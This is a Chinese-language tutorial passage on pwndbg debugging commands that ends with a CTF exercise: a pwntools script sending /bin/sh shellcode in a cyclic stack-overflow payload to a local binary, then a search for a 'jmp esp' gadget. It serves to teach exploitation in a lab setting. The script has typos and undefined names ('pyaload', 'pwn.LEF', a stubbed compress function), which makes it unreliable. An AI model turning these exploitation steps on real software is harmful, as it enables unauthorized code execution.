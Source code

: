 pwndbg 高级功能
vmmap
此命令可以显示程序的内存结构｡通常从/proc/self/maps中读出｡
search
Pwndbg的search搜索功能｡可以支持各种长度的数据以及字符串搜索的功能｡可以在内存中寻找需要的数据｡
  serach -h
  search hello
checksec
checksec是一个安全检查用脚本,在pwndbg中也有集成｡其作用是查看程序是否开启nx,canary等攻击保护｡

defcone Al赛题的第2个题目是一个通过格式化字符串触发的栈溢出漏洞｡这次我们就以这一题作为这次课程的最后考验｡来实际测试一下如何用pwntools来编写利用脚本｡

    import pwn
    pwn.context.log_level = 'debug'

    def compress(data):
        ...

    shellcode = pwn.shellcraft.i386.linux.sh()
    shellcode = pwn.asm(shellcode)

    payload = ''
    payload += '%259c' #填充259的垃圾数据
    payload += pwn.cyclic(40)
    pyaload = compress(payload)

    t = pwn.process('/tmp/bin')

    t.recvuntil('size: ')

    t.sendline(str(len(payload)))

    t.sendline(payload)
    
    raw_input()
    t.interactive()

把 py 运行起来,gdb attach 它｡ ps -e | grep bin 找到PID来Attach
gdb $ c 继续运行｡ 输入值｡｡非法退出了｡看 Invalid address 
0xy61618('haaa') 内存应该是aaah｡ 看之前的cyclic｡把这段haaa替换成别的就行了
pwn.cyclic_find('haaa') 长度是28｡修改py文件 

另开进程

    >>>import pwn
    >>>a =  pwn.LEF('/bin')
    >>>a.search('jmp esp').next()
    >>>pwn.asm('jmp esp')
    '\xff\xe4'
    >>>a.search('\xff\xe4')
    ----generate object ...
    >>>c.next()
    134717254
    >>>hex(134717254)
    '0x8079f46'
    >>>c.next()
    135040543
